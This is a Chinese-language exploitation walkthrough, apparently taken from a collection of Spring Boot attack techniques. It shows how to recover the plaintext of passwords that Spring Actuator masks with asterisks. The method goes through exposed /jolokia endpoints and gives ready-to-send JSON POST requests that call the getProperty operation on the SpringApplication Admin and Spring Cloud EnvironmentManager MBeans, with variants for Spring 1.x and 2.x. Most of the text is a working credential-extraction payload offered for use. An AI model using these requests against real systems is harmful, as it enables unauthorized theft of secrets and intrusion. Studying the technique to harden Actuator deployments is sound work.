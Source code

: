 获取被星号脱敏的密码的明文 (方法一)
-----------------------------------

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如
> password、secret)的属性名对应的属性值用 \* 号替换达到脱敏的效果

#### 利用条件：

-   目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
-   目标使用了 `jolokia-core` 依赖（版本要求暂未知）

#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******`
关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

##### 步骤二： jolokia 调用相关 Mbean 获取明文

将下面示例中的 `security.user.password`
替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的
`value` 键中。

-   调用 `org.springframework.boot` Mbean（**可能更通用**）

> 实际上是调用
> org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar
> 类实例的 getProperty 方法

spring 1.x

    POST /jolokia
    Content-Type: application/json

    {"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

spring 2.x

    POST /actuator/jolokia
    Content-Type: application/json

    {"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

-   调用 `org.springframework.cloud.context.environment` Mbean（**需要
    spring cloud 相关依赖**）

> 实际上是调用
> org.springframework.cloud.context.environment.EnvironmentManager
> 类实例的 getProperty 方法

spring 1.x

    POST /jolokia
    Content-Type: application/json

    {"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
